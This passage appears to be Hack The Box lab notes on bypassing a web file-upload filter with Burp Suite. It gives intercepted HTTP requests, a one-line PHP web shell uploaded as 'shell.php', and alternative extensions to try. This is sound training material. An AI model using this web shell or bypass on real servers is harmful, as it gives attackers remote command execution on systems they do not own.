 ### Burp Suite Interception Method

**Step 1: Capture Normal Upload Request**
```http
POST /upload.php HTTP/1.1
Host: SERVER_IP:PORT
Content-Type: multipart/form-data; boundary=--WebKitFormBoundary

----WebKitFormBoundary
Content-Disposition: form-data; name="uploadFile"; filename="HTB.png"
Content-Type: image/png

[IMAGE CONTENT]
----WebKitFormBoundary--
```

**Step 2: Modify Request for PHP Upload**
```http
POST /upload.php HTTP/1.1
Host: SERVER_IP:PORT
Content-Type: multipart/form-data; boundary=--WebKitFormBoundary

----WebKitFormBoundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/png

<?php system($_REQUEST['cmd']); ?>
----WebKitFormBoundary--
```

**Step 3: Analyze Response**
```http
HTTP/1.1 200 OK
Content-Length: 29

File successfully uploaded
```

### Key Modification Points

**Critical Fields to Modify:**
1. **filename="HTB.png"** → **filename="shell.php"**
2. **[IMAGE CONTENT]** → **[PHP WEB SHELL CODE]**

**Optional Modifications:**
- **Content-Type:** Can be left as `image/png` or changed to `application/x-php`
- **File Extension:** Try different PHP extensions (`.phtml`, `.php5`, etc.)

### Complete Bypass Workflow

**Step 1: Setup Interception**
```bash
# Configure Burp Suite proxy
# Enable intercept in Proxy → Intercept tab
# Configure browser to use Burp proxy (127.0.0.1:8080)
```
